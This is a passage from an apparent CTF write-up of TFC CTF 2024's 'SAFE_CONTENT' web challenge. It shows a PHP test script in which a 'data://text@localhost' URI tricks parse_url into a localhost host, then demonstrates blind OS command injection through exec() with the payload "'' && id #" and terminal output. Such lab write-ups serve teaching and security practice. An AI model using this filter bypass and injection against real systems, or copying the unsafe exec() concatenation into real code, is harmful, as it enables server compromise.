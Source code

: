 Oh! Let's go! We successfully tricked PHP function `parse_url` to parse our `data` URI scheme to have host `localhost` and returned our payload's content!

Nice!

### Blind OS Command Injection

Now that we can bypass the `localhost` filter in the parsed URL, let's figure out how to exploit this blind OS command injection vulnerability!

But before we test this, let's update our test script:

```php
<?php
$payload = "foobar";
$base64EncodedPayload = base64_encode($payload);
$url = "data://text@localhost/plain,$base64EncodedPayload";
echo "[*] Payload: $payload\n";
echo "[*] URL: $url\n";

$parsedUrl = parse_url($url);
echo "[*] Parsed URL:\n";
var_dump($parsedUrl);

$content = base64_decode(file_get_contents($url));
echo "[*] Final content: $content\n";

// $ echo <our_base64_decoded_payload> | base64 > /tmp/<current_timestamp>.tfc > /dev/null 2>&1
$command = 'echo ' . $content . ' | base64 > /tmp/' . date('YmdHis') . '.tfc > /dev/null 2>&1';
echo "[*] Executed OS command: $command\n";
exec($command);
?>
```

Now, to exploit this OS command injection vulnerability, we'll need to:
1. **Escape** the `echo` command
2. Use `&&` bitwise and operator to execute the next command
3. **Comment out** the rest of the intended command via `#` character

Here's the payload:

```php
$payload = "'' && id #";
```

If we run the script, we shouldn't get any result:

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|15:15:31(HKT)]
└> php test.php
[*] Payload: '' && id #
[*] URL: data://text@localhost/plain,JycgJiYgaWQgIw==
[*] Parsed URL:
array(4) {
  ["scheme"]=>
  string(4) "data"
  ["host"]=>
  string(9) "localhost"
  ["user"]=>
  string(4) "text"
  ["path"]=>
  string(23) "/plain,JycgJiYgaWQgIw=="
}
[*] Final content: '' && id #
[*] Executed OS command: echo '' && id # | base64 > /tmp/20240805071534.tfc > /dev/null 2>&1
```
